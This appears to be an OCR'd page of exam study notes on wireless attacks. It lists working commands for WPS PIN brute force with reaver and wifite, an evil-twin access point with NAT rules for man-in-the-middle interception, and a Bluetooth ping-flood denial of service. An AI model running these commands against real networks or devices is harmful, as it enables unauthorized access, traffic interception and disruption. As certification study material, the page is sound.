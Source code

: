 ### WPS PIN Attacks (Exam Favorite)

```

# Reaver brute force

reaver -i wlan0mon -b AP:MAC -vv -K 1 -d 3

  

# Wifite automated attack

wifite --wps --reaver

```

### Rogue Access Points

```

# Create evil twin

airbase-ng -a AP:MAC --essid "Free WiFi" -c 6 wlan0mon

  

# MITM setup

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

```

### Bluetooth Hacking

```

# Discover devices

hcitool scan

  

# BlueSmacking (DoS)

l2ping -i hci0 -s 600 -f TARGET:MAC

```

### Exam-Critical Reference Table

  
